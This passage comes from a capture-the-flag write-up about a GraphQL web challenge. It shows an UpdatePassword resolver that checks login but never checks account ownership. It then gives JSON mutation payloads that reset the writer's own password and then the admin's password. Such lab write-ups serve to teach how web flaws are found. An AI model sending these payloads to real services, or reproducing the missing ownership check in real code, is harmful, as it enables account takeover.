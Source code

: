 **Since the `UpdatePassword` looks very, very interesting for us, let's dive in to that!**
```js
UpdatePassword: {
    type: ResponseType,
    args: {
        username: { type: new GraphQLNonNull(GraphQLString) },
        password: { type: new GraphQLNonNull(GraphQLString) }
    },
    resolve: async (root, args, request) => {
        return new Promise((resolve, reject) => {
            if (!request.user) return reject(new GraphQLError('Authentication required!'));

            db.updatePassword(args.username, args.password)
                .then(() => resolve(response("Password updated successfully!")))
                .catch(err => reject(new GraphQLError(err)));
        });
    }
},
```

We can see that it requires 2 arguments: `username`, `password`. Then, it'll update the password using the `updatePassword()` function from `db`.

Now, since ***there's no validation, no check for correct username, we can update any users' password!***

**That being said, we can first try to update our own password!**
```json
{
    "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "siunam",
        "password": "password123"
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318224304.png)

No error! Let's login with the new password:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318224414.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318224419.png)

It worked!!!

**With that said, we can update user `admin`'s password!! (Username was found from `entrypoint.sh`)**
```json
{
    "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "admin",
        "password": "pwned"
    }
}
```
